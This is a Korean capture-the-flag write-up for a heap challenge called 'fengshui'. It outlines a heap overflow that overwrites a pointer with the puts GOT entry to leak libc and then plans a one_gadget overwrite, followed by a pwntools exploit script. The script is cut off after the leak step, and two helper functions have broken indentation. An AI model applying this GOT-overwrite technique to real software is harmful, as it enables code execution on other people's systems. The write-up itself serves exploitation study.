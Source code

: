 - **시나리오**
    1. display_location 함수를 호출하면 [v2]에 들어있는 주소를 인자로 하여 printf가 호출된다. 따라서 heapoverflow를 이용하여 index_1의 [v2_1]에 들어있는 S_1 주소를 puts_got로 변경시켜 puts_ libc 주소를 leak한다
    2. leak한 주소를 이용하여 libc_base 주소를 구한다
    3. update_desc함수를 이용하여 [S_1]에 들어있는 값을 변경가능하다. 원래는 여기에 Text 가 들어있을테지만, 1번이 진행되면 S_1가 puts_got로 변경되어 [S_1]에는 puts_의 libc주소가 들어가 있을 것이다
    4. 따라서 update_des를 이용하여 [S_1]에 들어있는 값을 one_gadet으로 덮는다

    참고로 heapoverflow를 일으킬때 chunk header 같은 것은 변조되지 않도록 적절히 맞춰줘야한다.

<br><br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context(arch="amd64",os="linux",log_level="DEBUG")

#p=remote("ctf.j0n9hyun.xyz",3028)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
p=process("./fengshui")
e=ELF("./fengshui")
libc=ELF("./libc.so.6")

gdb.attach(p,'code\nb *0xBDB+$code\n')

def add_(des_size,name,text_size,text):
p.sendlineafter("Choice: ","0")
p.sendlineafter("Size of description: ",str(des_size))
p.sendlineafter("Name: ",name)
p.sendlineafter("Text length: ",str(text_size))
p.sendlineafter("Text: ",text)

def del_(index):
p.sendlineafter("Choice: ","1")
p.sendlineafter("Index: ",str(index))

def show_(index):
    p.sendlineafter("Choice: ","2")
    p.sendlineafter("Index: ",str(index))

def update_(index,text_size,text):
    p.sendlineafter("Choice: ","3")
    p.sendlineafter("Index: ",str(index))
    p.sendlineafter("Text length: ",str(text_size))
    p.sendlineafter("Text: ",text)


add_(10,"AAAA",8,"AAAA")
add_(10,"AAAA",8,"AAAA")
add_(10,"AAAA",8,"AAAA")

del_(0)

payload='a'*0x80+p32(0x88)+p32(0x11)+'A'*8+p32(0)+p32(0x89)+p32(e.got['puts'])

add_(128,"AAAA",len(payload),str(payload))

show_(1)

p.recvuntil("Description: ")

```